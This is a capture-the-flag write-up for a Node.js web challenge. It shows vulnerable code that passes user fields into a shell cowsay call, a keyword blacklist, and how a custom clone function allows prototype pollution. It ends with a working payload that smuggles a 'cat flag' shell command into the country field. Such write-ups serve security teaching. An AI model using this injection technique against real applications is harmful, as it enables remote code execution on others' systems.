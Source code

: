 ```yaml
---
name: chat
category: web
points: 211
solves: 44
---
```


{% ignore %}
[Go to rendered GitBook version](https://sasdf.github.io/ctf/)
{% endignore %}

> We received a new gig.
> Our goal is to review this application written in nodejs and see if we can get the flag from this system.
> Are you up for this?

## Time
10 minutes

# Solution
## TL;DR
* Inject country field using proto pollution to get RCE.

## Vulnerability
When a user join a channel,
server will broadcast a ascii art created using cowsay.
The function getAscii has command injection vulnerability.
```javascript
helper.getAscii("User " + u + " living in " + c + " joined channel")
// ...
{
    getAscii: function(message) {
        var e = require('child_process');
        return e.execSync("cowsay '" + message + "'").toString();
    }
}
```
Where `u` is `name` and `c` is `country`.
They have a WAF for input:
```javascript
{
    validUser: function(inp) {
        var block = ["source","port","font","country",
                     "location","status","lastname"];
        if(typeof inp !== 'object') {
            return false;
        }

        var keys = Object.keys( inp);
        for(var i = 0; i< keys.length; i++) {
            key = keys[i];

            if(block.indexOf(key) !== -1) {
                return false;
            }
        }

        var r =/^[a-z0-9]+$/gi;
        if(inp.name === undefined || !r.test(inp.name)) {
            return false;
        }

        return true;
    }
}
```
They use `Object.keys` to blacklist some fields,
and use a custom clone function,
which is vulnerable to proto pollution.

Register with `{"name":"a","__proto__":{"country":"'$(cat flag)'"}}` to get the flag.


